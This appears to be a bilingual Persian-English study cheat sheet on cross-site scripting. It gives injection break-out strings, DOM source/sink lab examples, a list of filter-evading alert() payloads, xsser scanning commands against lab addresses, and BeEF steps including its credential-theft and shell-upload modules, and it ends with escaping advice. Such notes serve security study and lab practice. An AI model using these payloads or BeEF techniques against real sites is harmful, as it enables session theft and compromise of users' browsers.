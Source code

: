 # XSS

## Exploit (Reflected & Stored)
- تزریق کد به محتوای صفحه HTML بدون هیچ Encoding
  - ورودی های سایت مانند Search و Comment و ... 
  - پس از تزریق اسکریپت باید به page source code رفته و بررسی کنیم که با چه کاراکترهایی می توانیم از المانی که حاوی اسکریپت ما می باشد، breake out کنیم. چند نمونه در زیر آمده است:
```Javascript
">
'>
'">
'">');
/">
</title>
```
- س

## Exploit (DOM-based)
- تابع ```location.search``` برای *source* و ``` document.write ``` برای *sink*
```JavaScript
document.write('<img src="/resources/images/tracker.gif?searchTerms='+(new URLSearchParams(window.location.search)).get('search');+'">');
```
- تابع ```location.search``` برای *source* و ```innerHTML``` برای *sink*
  - در اینحالت محتوای search شده، درون صفحه نمایش داده می شود، که باید از تگ img برای تزریق payload استفاده می کنیم.
```JavaScript
document.getElementById('searchMessage').innerHTML = (new URLSearchParams(window.location.search)).get('search')
...
0 search results for '<span id="searchMessage"></span>'
``` 
- تابع ```location.search``` برای *source* و ```jQuery anchor href attribute``` برای *sink*
  - می خواهیم با کلیک روی کلید ```Back``` کوکی قربانی نمایش داده شود.
  - طبق کدهای زیر، پارامتر ```returnPath``` از URL خوانده شده و در href عه لینکی که به Back اشاره می کند، قرار داده می شود:
  - با تغییر URL و قرار دادن مقدار ```javascript:alert(document.cookie)``` برای پارامتر returnPath، با کلیک بر روی *Back*، کوکی کاربر نمایش داده می شود. 
```JavaScript
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
...
<a id="backLink">Back</a>
```
- رخداد ```hashchange``` و ```jQuery selector``` برای *sink*
  - طبق کد زیر، وبلاگ پس از لود شدن، بطور خودکار به شماره پستی که پس از علامت ```#``` درون URL نوشته شده است، می رود.
  - برای بهره برداری از این آسیب پذیری، از iframe نمایش داده شده استفاده می کنیم.
```Javascript
$(window).on('hashchange', function(){
                            var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
                            if (post) post.get(0).scrollIntoView();
                        });
```
```Javascript
<iframe src="https://ac321f2a1f028348c0ab3eba003000ff.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe> 
```
- سی

## Payloads
```Javascript
<script>alert(888)</script>
<SCript>alert(888)</SCript>
<scri<script>pt>alert(888)</scri</script>pt>
<script>prompt(888)</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 56, 56, 56, 41))</script>

<svg onload=alert(888)>

<img src=1 onerror=alert(888)>
<img src=1 oNeRrOr=alert`888`>

<BODY ONLOAD=alert(888)>
```

## Payloads
```Javascript
'; alert(888)'//
%27;+alert(888);//
";alert(888);//
";alert(888);"
';alert(888);//
';alert(888);'
```

## xsser
- POST
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'```
    - XSSer will substitute payload in place of "XSS" string
    - ```p``` shows parameter in POST request (intercept request and copy parameter values from Burp) 
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto```
    - Trying various XSS payloads by using XSSer's ```--auto``` option
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"```
    - Using custom XSS payload 
- GET
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote"```
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"```
    - Providing basic XSS payload to XSSer
- Authenticated
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0"```
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0" --Fp "<script>alert(1)</script>"```
    - Scan the target using basic XSS payload

## BeEF

- Initialize
  - Install
    - ```apt update```
    - ```apt install beef-xss```
  - Change username/password
    -```nano /etc/beef-xss/config.yaml```

- Run
  - ```beef-xss```  
  - Browser => 127.0.0.1:3000/ui/panel

- Usage
  - 127.0.0.1:3000/hook.js
  - 192.168.8.106:3000/demos/basic.html

- Useful commands
  - Steal Credentials
    - Social Engineering -> Pretty Theft
  - Screenshot
    - Browser -> Spyder Eye     
  - Redirect 
    - Browser -> Hooked Domain -> Redirect Browser  
  - Shell Upload with update
    - Social Engineering -> Fake Notification Bar(Firefox)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
